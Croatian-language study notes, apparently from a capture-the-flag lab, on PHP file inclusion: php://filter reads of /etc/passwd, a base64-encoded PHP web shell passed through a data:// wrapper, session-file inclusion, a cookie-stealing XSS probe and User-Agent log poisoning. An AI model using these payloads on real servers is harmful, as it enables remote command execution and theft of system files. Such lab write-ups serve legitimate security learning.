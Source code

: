 PHP wrappers
stavljamo php da bi se izvrsila php naredba nad nekom datotekom
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/string.tolower/resource=.htaccess

data:text/plain,<?php phpinfo(); ?>
Mozemo poslati i ovakav payload:
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
enkodirani tekst je base64 kodirani php kod koji izgleda ovako: <?php system($_GET['cmd']); echo 'Shell done!'; ?> i sada pri pozivanju u pages, mozemo dodati argument &cmd=id
Primjer:/
http://10.10.86.244/playground.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=id


PHP Session Files
Ovaj exploit se koristi ako imamo stranicu koja izvrsava parametre za dohvacanje, te mozemo  generiarirati datoteku phpinfo() koji ce biti spremljen u datoteci koji je naveden dolje
http://10.10.250.190/sessions.php?page=<?php echo phpinfo(); ?>
http://10.10.250.190/sessions.php?page=/var/lib/php/sessions/sess_[sessionID]

ako zelimo saznati session ID mozemo pogledati PHPSESSID u cookiesima ili napraviti ovakav input
http://10.10.250.190/sessions.php?page=%3Cscript%3Ealert(document.cookie)%3C/script%3E


Log Poisoning
Generalan naziv za tehnike preko kojih korisnik injecta naredbe u log datoteku i onda preko nje forsira njihovo izvršavanje.
Cilj nam je postaviti User-Agent polje da preko ovakve naredbe: curl -A '<?php system($_GET["cmd"]); ?>' IP | curl -H 'User-Agent: <?php system($_GET["cmd"]); ?>' IP
Nakon toga server loga te pokusaje i sada preko ovakvoga requesta mozemo vidjeti sto zelimo: http://10.10.86.244/playground.php?page=/var/log/apache2/access.log&cmd=whoami

Logovi se nalaze cesto na iducim mjestima:
/var/log/syslog ili /var/log/messages — kernel & system messages (distro dependent).
/var/log/auth.log — authentication / ssh / sudo events (Debian/Ubuntu).
/var/log/kern.log — kernel messages.
/var/log/dmesg — boot/kernel ring buffer.
/var/log/apache2/ ili /var/log/httpd/ — Apache logs.
/var/log/nginx/ — Nginx logs.
/var/log/mysql/ ili /var/log/mariadb/ — database logs.
/var/log/mail.log ili /var/log/maillog — mail server logs.
/var/log/boot.log — boot process.
/var/log/daemon.log — background services.
/var/log/ufw.log — firewall (ufw).